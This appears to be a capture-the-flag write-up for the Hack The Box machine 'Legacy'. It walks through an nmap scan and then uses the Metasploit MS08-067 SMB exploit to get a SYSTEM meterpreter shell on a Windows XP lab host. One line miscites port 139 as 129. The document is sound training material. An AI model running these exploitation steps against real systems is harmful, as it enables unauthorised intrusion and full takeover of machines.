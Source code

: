 # Legacy

## Initial scan

```sh
sudo nmap -A -T5 -p- 10.10.10.4
```

Result
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-15 02:09 EDT
Nmap scan report for 10.10.10.4
Host is up (0.074s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (92%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m46s, deviation: 1h24m51s, median: -4h58m46s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:f6:5f (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-03-15T05:12:29+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   73.97 ms 10.10.14.1
2   74.71 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.70 seconds
```

We have 2 ports, 1 service. Port 129 and port 445. Mostly about SMB. Lets try to exploit this.

## SMB scan

First, let's find out the SMB version that this box is running

```sh
msfconsole
msf5 > search smb_version

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_version                   normal  No     SMB Version Detection


msf5 > use auxiliary/scanner/smb/smb_version 
```

A quick google for Windows XP SP3 SMB exploit rapid-7 gives us [rapid7](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

## Exploitation

We now attempt to exploit the machine

```sh
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > show targets
msf exploit(ms08_067_netapi) > set TARGET 7
msf exploit(ms08_067_netapi) > show options
msf exploit(ms08_067_netapi) > set rhosts 10.10.10.4
msf exploit(ms08_067_netapi) > run
```

We get back a meterpreter shell. Let's first take a look at who we are
```sh
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
# Computer        : LEGACY
# OS              : Windows XP (5.1 Build 2600, Service Pack 3).
# Architecture    : x86
# System Language : en_US
# Domain          : HTB
# Logged On Users : 1
# Meterpreter     : x86/windows
```


Taking a look around with the shell, the flags are found at `C:\Documents and Settings\john\Desktop>` and `C:\Documents and Settings\Administrator\Desktop` with the command `type user.txt`

